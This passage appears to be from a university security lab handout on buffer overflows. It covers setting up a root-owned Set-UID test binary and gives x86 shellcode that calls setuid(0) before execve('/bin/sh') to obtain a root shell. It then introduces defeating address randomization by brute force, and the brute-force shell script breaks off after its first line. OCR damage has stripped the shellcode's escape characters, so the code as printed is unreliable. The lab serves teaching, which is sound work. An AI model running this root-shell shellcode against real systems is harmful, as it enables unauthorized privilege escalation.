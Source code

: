 </table>

The above program can be compiled and set up using the following commands (we need to make it root-owned Set-UID program):

$ gcc dash_shell_test.c -o dash_shell_test

$ sudo chown root dash_shell_test

$ sudo chmod 4755 dash_shell_test

From the above experiment, we will see that seuid(0) makes a difference. Let us add the assembly code for invoking this system call at the beginning of our shellcode, before we invoke execve().

<table width="624">

 <tbody>

  <tr>

   <td width="624">char shellcode[] =“x31xc0”                                           /* Line 1: xorl                       %eax,%eax          */“x31xdb”                                           /* Line 2: xorl                       %ebx,%ebx          */“xb0xd5”                                         /* Line 3: movb                      $0xd5,%al           */“xcdx80”                                          /* Line 4: int                         $0x80                    */// —- The code below is the same as the one in Task 2 —“x31xc0”“x50”“x68″”//sh”“x68″”/bin”“x89xe3”“x50”“x53”“x89xe1”“x99”“xb0x0b”“xcdx80”</td>

  </tr>

 </tbody>

</table>

The updated shellcode adds 4 instructions: (1) set ebx to zero in Line 2, (2) set eax to 0xd5 via Line 1 and 3 (0xd5 is setuid()’s system call number), and (3) execute the system call in Line 4. Using this shellcode, we can attempt the attack on the vulnerable program when /bin/sh is linked to /bin/dash. Using the above shellcode to modify exploit.c or exploit.py; try the attack from Task 2 again and see if you can get a root shell. Please describe and explain your results.

<h2>1.6        Task 4: Defeating Address Randomization</h2>

On 32-bit Linux machines, stacks only have 19 bits of entropy, which means the stack base address can have 2<sup>19 </sup>=524<em>,</em>288 possibilities. This number is not that high and can be exhausted easily with the brute-force approach. In this task, we use such an approach to defeat the address randomization countermeasure on our 32-bit VM. First, we turn on the Ubuntu’s address randomization using the following command. We run the same attack developed in Task 2. Please describe and explain your observation.

$ sudo /sbin/sysctl -w kernel.randomize_va_space=2

We then use the brute-force approach to attack the vulnerable program repeatedly, hoping that the address we put in the badfile can eventually be correct. You can use the following shell script to run the vulnerable program in an infinite loop. If your attack succeeds, the script will stop; otherwise, it will keep running. Please be patient, as this may take a while. Let it run overnight if needed. Please describe your observation.

#!/bin/bash

SECONDS=0

